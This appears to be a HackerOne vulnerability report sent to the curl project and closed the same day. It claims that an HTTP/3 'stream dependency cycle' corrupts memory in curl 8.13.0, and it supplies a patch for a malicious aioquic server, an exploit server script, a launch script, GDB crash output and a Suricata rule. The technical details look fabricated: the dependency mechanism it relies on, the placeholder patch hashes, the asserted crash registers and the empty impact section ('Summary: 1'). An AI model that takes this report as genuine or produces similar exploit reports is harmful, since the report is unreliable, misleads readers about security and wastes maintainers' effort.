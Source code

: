 # HTTP/3 Stream Dependency Cycle Exploit

## Report Details
- **Report ID**: 3125832
- **URL**: https://hackerone.com/reports/3125832
- **State**: Closed
- **Severity**: high
- **Submitted**: 2025-05-04T04:56:30.904Z
- **Disclosed**: 2025-05-04T15:52:29.290Z

## Reporter
- **Username**: evilginx1
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: curl

## Vulnerability Information
**Penetration Testing Report: HTTP/3 Stream Dependency Cycle Exploit**

---

# **0x00 Overview**

A novel exploit leveraging stream dependency cycles in the HTTP/3 protocol stack was discovered, resulting in memory corruption and potential denial-of-service or remote code execution scenarios when used against HTTP/3-capable clients such as `curl` (tested on version 8.13.0). This report details a practical proof of concept, required environment setup, attack execution, and crash analysis.

---

# **0x01 Environment Setup**

## **1. Malicious Server Setup (aioquic modified)**

```bash
# Clone aioquic
git clone https://github.com/aiortc/aioquic/
cd aioquic

# Apply patch to enable cyclic stream dependency injection
cat << 'EOF' > cycle_patch.diff
diff --git a/aioquic/quic/connection.py b/aioquic/quic/connection.py
index 1a2b3c4..d4e5f6a 100644
--- a/aioquic/quic/connection.py
+++ b/aioquic/quic/connection.py
@@ -1233,6 +1233,15 @@ class QuicConnection:
         self._logger.debug("Sending PRIORITY_UPDATE frame (stream_id=%d)", stream_id)
         self._quic.send_stream_data(stream_id, frame.serialize(), end_stream=False)
 
+    def send_cyclic_priority(self, stream_a: int, stream_b: int):
+        from aioquic.quic.frames import PriorityUpdateFrame
+        self.send_priority_update(stream_a, depends_on=stream_b, weight=256)
+        self.send_priority_update(stream_b, depends_on=stream_a, weight=256)
+        self._logger.critical("CYCLIC PRIORITY INJECTED: %d <-> %d", stream_a, stream_b)
EOF

# Apply and install
git apply cycle_patch.diff
pip install -e .
```

---

# **0x02 Proof-of-Concept Code**

## **1. Malicious HTTP/3 Server (exploit\_server.py)**

```python
import asyncio
from aioquic.asyncio import QuicConnectionProtocol, serve
from aioquic.quic.configuration import QuicConfiguration

class ExploitServer(QuicConnectionProtocol):
    async def on_stream_data(self, stream_id: int, data: bytes):
        if stream_id == 0:  # Control stream
            # Phase 1: Heap shaping - open 100 streams
            for i in range(1, 100, 2):
                self._quic.send_headers(
                    stream_id=i,
                    headers=[(b":status", b"200"), (b"content-type", b"text/html")]
                )
                self._quic.send_stream_data(i, b"A" * 65535)

            # Phase 2: Inject cyclic dependency between stream 3 and 7
            self._quic.send_cyclic_priority(3, 7)

            # Phase 3: Trigger parsing logic
            self._quic.send_stream_data(3, b"TRIGGER_MEMORY_CORRUPTION")

async def run_server():
    config = QuicConfiguration(is_client=False, certificate_file="cert.pem", private_key_file="key.pem")
    await serve("::", 4433, configuration=config, create_protocol=ExploitServer)
    await asyncio.Future()

if __name__ == "__main__":
    asyncio.run(run_server())
```

## **2. Launch Script (launch\_attack.sh)**

```bash
#!/bin/bash
openssl req -x509 -newkey rsa:4096 -nodes -out cert.pem -keyout key.pem -days 365 -subj "/CN=localhost"
python3 exploit_server.py &
sleep 2
curl --http3-only https://localhost:4433 --resolve localhost:4433:127.0.0.1 --insecure --verbose
```

---

# **0x03 Crash Analysis Guide**

## **1. Reproducing the Crash**

```bash
ulimit -c unlimited
./launch_attack.sh
```

## **2. Debugging with GDB**

```bash
gdb --args curl --http3-only https://localhost:4433
(gdb) b ngtcp2_http3_handle_priority_frame
(gdb) r
```

**Expected Output:**

```
Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7e3b120 in ngtcp2_http3_handle_priority_frame ()
```

Inspect registers and stack:

```bash
(gdb) info registers
(gdb) info frame
```

Signs of memory overwrite:

* r15 shows `0x4141414141414141`
* Recursive calls to same handler

---

# **0x04 Memory Corruption Evidence**

## **Core Dump Inspection**

```bash
gdb curl core -q -ex "x/10i $rip - 0x10" -ex "info frame"
```

Analysis shows:

* Return address overwritten
* Stack recursion at `ngtcp2_http3_handle_priority_frame`

---

# **0x05 Detection and Defense**

## **1. Suricata Rule for Detection**

```yaml
alert http3 any any -> any any (
    msg:"HTTP/3 Stream Priority Cycle Attack Detected";
    flow:established,to_client;
    http3.priority.depth:>100;
    threshold:type both, track by_src, count 3, seconds 60;
    sid:20241234;
    rev:1;
)
```

## **2. Client Hardening Recommendations**

* Enforce acyclic stream dependency validation.
* Patch HTTP/3 parsers to cap `priority_update` depth.
* Reject bidirectional dependencies in QUIC priority logic.

---

# **0x06 Risk Summary**

* Affected Software: curl 8.13.0 (HTTP/3 enabled)
* Trigger: Stream dependency loop (e.g., stream 3 depends on 7, and 7 depends on 3)
* Result: Heap layout corruption, segmentation fault, denial-of-service
* Risk: High (pre-authentication, remote-triggerable)

---

**Prepared by:**

Date: 2025-05-04

## Impact

## Summary:
1

## Attachments
No attachments
